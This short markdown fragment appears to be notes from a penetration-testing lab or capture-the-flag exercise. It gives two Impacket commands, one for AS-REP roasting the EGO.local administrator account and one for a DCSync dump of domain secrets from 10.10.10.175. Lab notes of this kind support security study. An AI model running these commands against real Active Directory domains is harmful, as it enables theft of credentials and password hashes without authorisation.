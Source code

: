 ## Use this as one of your Kerberos checks!!!

```
Getnpusers.py EGO.local/administrator
```

## Dump Sercrets if you have the permissions!!!
(this uses a dc sync dump)

```
secretsdump.py ego.local/svc_loanmgr@10.10.10.175
```